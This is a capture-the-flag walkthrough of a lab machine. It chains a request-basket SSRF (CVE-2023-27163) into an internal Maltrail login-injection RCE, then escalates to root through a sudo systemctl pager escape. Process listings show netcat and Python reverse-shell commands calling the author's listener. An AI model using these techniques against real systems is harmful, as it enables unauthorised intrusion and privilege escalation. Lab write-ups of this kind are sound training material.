## RUSTSCAN:

```Bash
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdY38bkvujLwIK0QnFT+VOKT9zjKiPbyHpE+cVhus9r/6I/uqPzLylknIEjMYOVbFbVd8rTGzbmXKJBdRK61WioiPlKjbqvhO/YTnlkIRXm4jxQgs+xB0l9WkQ0CdHoo/Xe3v7TBije+lqjQ2tvhUY1LH8qBmPIywCbUvyvAGvK92wQpk6CIuHnz6IIIvuZdSklB02JzQGlJgeV54kWySeUKa9RoyapbIqruBqB13esE2/5VWyav0Oq5POjQWOWeiXA6yhIlJjl7NzTp/SFNGHVhkUMSVdA7rQJf10XCafS84IMv55DPSZxwVzt8TLsh2ULTpX8FELRVESVBMxV5rMWLplIA5ScIEnEMUR9HImFVH1dzK+E8W20zZp+toLBO1Nz4/Q/9yLhJ4Et+jcjTdI1LMVeo3VZw3Tp7KHTPsIRnr8ml+3O86e0PK+qsFASDNgb3yU61FEDfA0GwPDa5QxLdknId0bsJeHdbmVUW3zax8EvR+pIraJfuibIEQxZyM=
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEFMztyG0X2EUodqQ3reKn1PJNniZ4nfvqlM7XLxvF1OIzOphb7VEz4SCG6nXXNACQafGd6dIM/1Z8tp662Stbk=
|   256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICYYQRfQHc6ZlP/emxzvwNILdPPElXTjMCOGH6iejfmi
55555/tcp open  unknown syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 09 Jul 2023 09:12:12 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 09 Jul 2023 09:11:45 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 09 Jul 2023 09:11:46 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

* * *

## SSH:

As usual we can't do much about SSH running on port 22 and bruteforce is not the indended way so we will skip this and move on for now.

We may want to come back as soon we have some crednetials.

* * *

## Port 55555:

Now this is a very strange port used by this service but surfing directly to the service on the browser we are presendet with a selfhosted HTTP service:



And checking on the bottom page we can read the App name together with app version: 


Again googling around seems like there is a fresh CVE that points towards a SSRF on the API part that we may want to exploit?

https://nvd.nist.gov/vuln/detail/CVE-2023-27163

And more specifially should be an article with a POC on Github linked on the same nist page: https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

And here a more detailed article about the issue: [https://notes.sjtu.edu.cn/s/MUUhEymt7#](https://notes.sjtu.edu.cn/s/MUUhEymt7)

And here following the  guide and sending a POST request via Burpsuite to api/baskets/BASKETNAME should give us a token:



And after trying to send a Curl request to : 

```Bash
curl http://10.10.11.224:55555/<BUCKETNAME>
```

We should see the response back in you NC:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 80                       
listening on [any] 80 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.224] 34502
GET /yovecio3 HTTP/1.1
Host: 10.10.14.2:80
User-Agent: curl/7.88.1
Accept: */*
X-Do-Not-Forward: 1
Accept-Encoding: gzip
```

Now we need to understand how we can take advantage of that to extrapolate data and even maybe get a RCE!

Ok here I went back to the drawing table and apparently the solution was to use the  exploit but point to example 127.0.0.1:80



Then reaching to buckets url(the one without web interface should show you more stuff) but here I had to not follow the guide and set proxy_response to true instead:



Doing so we could now see a proxy forward to the internal website reachable only from the inside!


And again checking thee version at footer:



Shows that Mailtrail(https://github.com/stamparm/maltrail) a Mail traffic IDS that is vulnerable to another CVE: https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

So I decided to add a new basket and by checking the product documentation here:



We should be able to reach the service webportal on internal port 8338, so I adjusted the proxy to point to login portal:



And now trying to reach the main link to basket should unveil the login:



Now to make it working I tried to run the code straight from the article but i get always Invalif login so i thought that GET request should be wrong so let's try to use POST request instead!

Now I had some issues to make a RCE working here so I decided to step down and check what can I do example by curling my IP to see if any commands get's executed:





And as you can see the machine is working and the structure is right so I guess we have to find a Revshell payload that makes us happy now!

And after several tries I got it working by using a Python revshell:



* * *

## Road to User.txt

Now let's make our RCE more "Interactive" with Python3 wrapper for /bin/bash and let's grab our first flag by getting user under PUMA home folder, fortunately it's only one user except root.



* * *

## Road to Root.txt

Now to make my life easier I will upload a Linpeas script and iterate thru everything and check what other stuff can I find.

I will post here only stuff that may be relevant and not the whole verbose to keep the report simple:

```Bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:8338            0.0.0.0:*               LISTEN      887/python3         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::55555                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -           

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service


╔══════════╣ Unexpected in root
/data
/vagrant
```

Ok I guess we found our way in, puma can run as SUDO root no password needed the staus of the taril.service, which is left as relative path and that my help us to get a RCE by hijacking the ENV path.

Let's start by checking if that service exist and if yes, if we can edit it somehow...

```Bash
puma@sau:/$ sudo -u root /usr/bin/systemctl status trail.service
sudo -u root /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2023-07-09 12:44:50 UTC; 1h 45min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 887 (python3)
      Tasks: 31 (limit: 4662)
     Memory: 328.8M
     CGroup: /system.slice/trail.service
             ├─  887 /usr/bin/python3 server.py
             ├─ 1416 /bin/sh -c logger -p auth.info -t "maltrail[887]" "Failed >
             ├─ 1417 /bin/sh -c logger -p auth.info -t "maltrail[887]" "Failed >
             ├─ 1420 cat /tmp/f
             ├─ 1421 sh -i
             ├─ 1422 nc 10.10.14.21 4444
             ├─ 1443 /tmp/uyjiL
             ├─ 1663 bash
             ├─ 1665 python3 -c import pty; pty.spawn("/bin/bash")
             ├─ 1666 /bin/bash
             ├─ 1677 sudo /usr/bin/systemctl status trail.service
             ├─ 1678 /usr/bin/systemctl status trail.service
             ├─ 1679 pager
             ├─ 1754 /bin/sh -c logger -p auth.info -t "maltrail[887]" "Failed >
lines 1-23
             ├─ 1755 python3 -c import os,pty,socket;s=socket.socket();s.connec>
lines 2-24
             ├─ 1756 /bin/sh
lines 3-25 	
             ├─ 1758 python3 -c import pty; pty.spawn("/bin/bash")
             ├─ 1759 /bin/bash
             ├─ 1796 /bin/sh -c logger -p auth.info -t "maltrail[887]" "Failed >
             ├─ 1797 python3 -c import os,pty,socket;s=socket.socket();s.connec>
             ├─ 1798 /bin/sh
             ├─ 1799 python3 -c import pty; pty.spawn("/bin/bash")
             ├─ 1801 /bin/bash
             ├─ 9512 gpg-agent --homedir /home/puma/.gnupg --use-standard-socke>
             ├─17013 sudo -u root /usr/bin/systemctl status trail.service
             ├─17014 /usr/bin/systemctl status trail.service
             └─17015 pager

Jul 09 13:56:10 sau maltrail[1479]: Failed password for ;'
                                    
                                     from 127.0.0.1 port 60428
Jul 09 14:05:13 sau maltrail[1652]: Failed password for ; from 127.0.0.1 port 4>
Jul 09 14:08:54 sau sudo[1677]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=ro>
Jul 09 14:08:54 sau sudo[1677]: pam_unix(sudo:session): session opened for user>
Jul 09 14:09:08 sau maltrail[1687]: Failed password for ; from 127.0.0.1 port 3>
Jul 09 14:25:28 sau crontab[7018]: (puma) LIST (puma)
Jul 09 14:25:32 sau sudo[9268]:     puma : TTY=pts/4 ; PWD=/tmp ; USER=root ; C>
Jul 09 14:25:32 sau nologin[9308]: Attempted login by UNKNOWN (UID: 1001) on UN>
Jul 09 14:30:36 sau sudo[17013]:     puma : TTY=pts/4 ; PWD=/ ; USER=root ; COM>
lines 26-48Jul 09 14:30:36 sau sudo[17013]: pam_unix(sudo:session): session opened for use>
lines 27-49
lines 27-49/49 (END)
```

From here we can see that is a service about maltrail and is loaded from /etc/systemd/system/trail.service

```Bash
puma@sau:/etc/systemd/system$ ls -al
ls -al
total 76
drwxr-xr-x 17 root root 4096 Jun 16 17:54 .
drwxr-xr-x  5 root root 4096 Jun 16 11:38 ..
lrwxrwxrwx  1 root root   40 Jan 10 21:41 dbus-org.freedesktop.ModemManager1.service -> /lib/systemd/system/ModemManager.service
lrwxrwxrwx  1 root root   44 Jan 10 21:39 dbus-org.freedesktop.resolve1.service -> /lib/systemd/system/systemd-resolved.service
lrwxrwxrwx  1 root root   45 Jan 10 21:39 dbus-org.freedesktop.timesync1.service -> /lib/systemd/system/systemd-timesyncd.service
drwxr-xr-x  2 root root 4096 Jan 10 21:39 default.target.wants
drwxr-xr-x  2 root root 4096 Jan 10 21:41 emergency.target.wants
drwxr-xr-x  2 root root 4096 Jan 10 21:39 getty.target.wants
drwxr-xr-x  2 root root 4096 Jan 10 21:41 graphical.target.wants
lrwxrwxrwx  1 root root   38 Jan 10 21:40 iscsi.service -> /lib/systemd/system/open-iscsi.service
drwxr-xr-x  2 root root 4096 Jan 10 21:40 mdmonitor.service.wants
drwxr-xr-x  2 root root 4096 Jun 19 11:11 multi-user.target.wants
lrwxrwxrwx  1 root root   38 Jan 10 21:41 multipath-tools.service -> /lib/systemd/system/multipathd.service
drwxr-xr-x  2 root root 4096 Apr 15 09:30 netfilter-persistent.service.d
drwxr-xr-x  2 root root 4096 Jun  8 11:11 network-online.target.wants
drwxr-xr-x  2 root root 4096 Jan 10 21:40 open-vm-tools.service.requires
drwxr-xr-x  2 root root 4096 Jan 10 21:41 paths.target.wants
-rw-r--r--  1 root root  142 Apr 14 17:41 req.service
drwxr-xr-x  2 root root 4096 Jan 10 21:41 rescue.target.wants
drwxr-xr-x  2 root root 4096 Jan 10 21:41 sleep.target.wants
drwxr-xr-x  2 root root 4096 Jun 16 17:54 sockets.target.wants
lrwxrwxrwx  1 root root   31 Jan 10 21:41 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x  2 root root 4096 Jan 10 21:41 sysinit.target.wants
lrwxrwxrwx  1 root root   35 Jan 10 21:39 syslog.service -> /lib/systemd/system/rsyslog.service
drwxr-xr-x  2 root root 4096 Jun 16 17:54 timers.target.wants
-rwxr-xr-x  1 root root  461 Apr 15 09:21 trail.service
lrwxrwxrwx  1 root root   41 Jan 10 21:40 vmtoolsd.service -> /lib/systemd/system/open-vm-tools.service
```

Ok seems like we can't edit directly that service so let's try to add that service under /tmp and by adding /tmp to ENV path it will be called first.

Here is the part of the script:

```Bash
puma@sau:/etc/systemd/system$ cat trail.service
cat trail.service
[Unit]
Description=Maltrail. Server of malicious traffic detection system
Documentation=https://github.com/stamparm/maltrail#readme
Documentation=https://github.com/stamparm/maltrail/wiki
Requires=network.target
Before=maltrail-sensor.service
After=network-online.target

[Service]
User=puma
Group=puma
WorkingDirectory=/opt/maltrail
ExecStart=/usr/bin/python3 server.py
Restart=on-failure
KillMode=mixed

[Install]
WantedBy=multi-user.target
```

Ok here the solution was far easier that what I thought, and can be found on our old friend GTFO Bins: https://gtfobins.github.io/gtfobins/systemctl/#sudo

Specifically the c solution:


Which basically it's translating to running the systemctl on that service as root:

```Bash
puma@sau:/opt/maltrail$ sudo -u root /usr/bin/systemctl status trail.service
sudo -u root /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN):sh
 ::ss● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2023-07-09 12:44:50 UTC; 2h 33min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 887 (python3)
      Tasks: 31 (limit: 4662)
     Memory: 329.2M
```

And then send !sh command and by doing so we are now root:

```Bash
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```

Go and get the root flag:

